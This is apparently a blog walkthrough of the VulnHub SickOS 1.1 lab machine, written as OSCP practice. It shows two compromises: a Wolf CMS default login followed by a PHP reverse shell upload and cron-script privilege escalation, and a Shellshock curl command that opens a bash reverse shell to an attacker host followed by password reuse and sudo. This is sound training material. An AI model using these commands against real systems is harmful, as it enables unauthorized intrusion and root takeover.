 ```yaml
---
title:  "SickOS 1.1 Walkthrough"
header: "SickOS 1.1 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


The SickOS series from vulnhub are a really good taste for what you can expect to find while purusing your OSCP. Below is a walkthrough of how to compromise the machine and obtain the flag. I've seperated it into two options as there are many different ways to compromise this particular machine. Post or reach out if you know of some other ways!

# Host Enumeration  
***

Of course we start off with an nmap scan to see what we're working with
`nmap –sV 192.168.32.133`  
![Nmap Scan](/assets/images/sickosnmap.JPG)  

# Service Enumeration  
***
![Services](/assets/images/sickosservices.JPG)  
 
So at this point I took notes of the ports, likely OS version, and the services running. Since there’s a proxy configured and a closed 8080 port, I went ahead configured my browser through port 3128 with the assumption there’s a website possibly hosted on this server.  

>**Helpful Note:**
You can do this by opening Iceweasel > Properties > Preferences > Advanced > Network > Settings. Select Manual Proxy Configuration and place the IP address and appropriate port and select “OK” once done.  
![Proxy Config](/assets/images/sickosproxyconfig.jpg)  

 Next I navigated to port 8080 with a connection failure and simply tried the standard HTTP port 80 and was presented with a page containing “BLEHHH!!!” on it.  
![Blehhh](/assets/images/sickosblehh.JPG)  

Inspecting the source didn’t reveal anything useful but then I tried robots.txt which contained an interesting folder “/wolfcms”.  
![SickOS Robots](/assets/images/sickosrobots.jpg)  

While manually researching wolfcms, I kicked off a general nikto scan and a dirb scan of the wolfcms directory.

Nikto Usage: `nikto -h 192.168.32.133 -useproxy http://192.168.32.133:3128`  
Dirb Usage: `dirb http://192.168.32.133/wolfcms -p 192.168.32.133:3128`  

I noted multiple publically released vulnerabilities for Wolf CMS, one in particular was an [Arbitrary File Upload /Execution](https://www.exploit-db.com/exploits/38000/) that seemed to foot the bill if I were able to get logged in. A quick google search revealed the standard login page would be `/admin/` or `/?admin/` depending on the mod_rewrite status. In this case, the correct path was `/wolfcms/?admin/`. Navigating to this URL presented a Wolf CMS login screen.  

![SickOS Wolf CMS Login](/assets/images/sickoswolflogin.jpg)  

At this time I decided to review what my scans came back with as I had a pretty good feel for where this was going from a Wolf CMS standpoint.

### Dirb  
Dirb revealed several directories but most notably the `/public/` directory which was also mentioned in the vulnerability page mentioned above.  

![SickOS Dirb](/assets/images/sickosdirb.jpg)  

### Nikto  

Nikto had even more interesting information such as it possibly being vulnerable to shellshock.  
![SickOS Nikto](/assets/images/sickosnikto.jpg)  

This is where the options occur, Option 1 goes after the CMS and Option 2 goes after shellshock. Shellshock is certainly the popular way in but I recommend doing both just for the experience. Just as an FYI, the privilege escalation techniques are different for each but can be done in either scenario.

# Compromise Option 1 - CMS Way  
***
### Breach  
I searched for default username/password combinations but it appears to be generated at install so there wasn’t much luck on that front. So I navigated back to the login screen `/wolfcms/?admin/` to try some basic username/password combos and one of the first tries was a success with admin/admin.  

![SickOS Wolf Main Page](/assets/images/sickoswolfmain.jpg)  

Upon entry, I snooped around a few places just checking out versioning and to see if anything caught my eye. Naturally the files section stuck out like a sore thumb, particularly since it shows read/write permissions and the ability to upload files. Essentially, this is what the exploit noted above was describing; find a way to upload a shell and then navigate to it. As with many others, [pentestmonkey.net’s](http://pentestmonkey.net/) reverse PHP shell comes to the rescue again. I plugged in my attacking machines IP and uploaded it.  

![SickOS Wolf Upload](/assets/images/sickoswolfupload.jpg)  

Since it appears that it’s in the public directory (that I discovered earlier with Dirb), all that is needed is to set up a listener and navigate to the uploaded malicious php page

> **Helpful Note:**
Listener: `nc –nlvp 4444`  

I was then presented with a shell to my attacking machine as the www-data user  

![SickOS Shell 1](/assets/images/sickosshell1.jpg)  

### Privilege Escalation  
 
I noticed an interesting cron entry that ran `/var/www/connect.py` in which the www-data user had write access to. So I replaced the contents of connect.py with a python shell obtained from [Trustedsec](https://www.trustedsec.com/) and set up a listener. After a few seconds I was presented with a shell as the root user which was able to obtain the flag.  

![SickOS root 1](/assets/images/sickosroot1.jpg)  

# Compromise Option 2 - Shellshock Way  
***

### Breach  
From the output of the Nikto scan, it appears that this machine is vulnerable to shellshock. I don’t want to belabor shellshock as it’s very widely publicized and documented well. However, you should be familiar with it as it will likely come up in future endeavors ([link 1](https://fedoramagazine.org/shellshock-how-does-it-actually-work/), [link 2](https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability), [link 3](https://blog.cloudflare.com/inside-shellshock/))

There are many ways to do this, but in my haste I chose to use curl (this would be a great exercise to go through with Burp as well). I set up a listener, and used the below curl command to send to the attacking machine.
`curl -x http://<TARGET IP>:3128 -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/<ATTACKING IP>/1234 0>&1" http://<TARGET IP>/cgi-bin/status`  

Once the command was sent, I was able to receive a reverse shell as the www-data user.  

![SickOS Shell 2](/assets/images/sickosshell2.jpg)  

### Privilege Escalation  

Once on the machine, I began the information collection phase and came upon an interesting file `/var/www/wolfcms/config.php`. You should always check out the config files, people hardcode all kinds of juicy information in them.  

![SickOS Database Config](/assets/images/sickosdbconfig.jpg)  

As it shows above, the SQL root user has the password of “john@123”. Naturally once you’ve obtained any type of credential you should see if the user can fall victim to password reuse. A quick `cat /etc/passwd` command shows a non-standard user “sickos”. I attempted to SSH as that user and with the credential found in the config file and was able to successfully log in.  

Upon logging, I checked to see if the user had sudo privileges by using `sudo –l` and as you will see below, the user does have the necessary privileges.  

![SickOS Sudo Options](/assets/images/sickossudoop.jpg)  

All that is left to do is `sudo su`  

![SickOS Sudo](/assets/images/sickossudo.jpg)  

Once as the root user you can move to the /root directory and display the flag  

![SickOS root 2](/assets/images/sickosroot2.jpg)  

# Conclusion  
***

I believe there are some additional easter eggs to find here but had to move on to other things. I thought it was a good representation of some of the machines that you'll experience in the OSCP labs. I would consider this machine on the easy side but it teaches you good lessons and encourages you to follow your hunches and solidify your enumeration process.
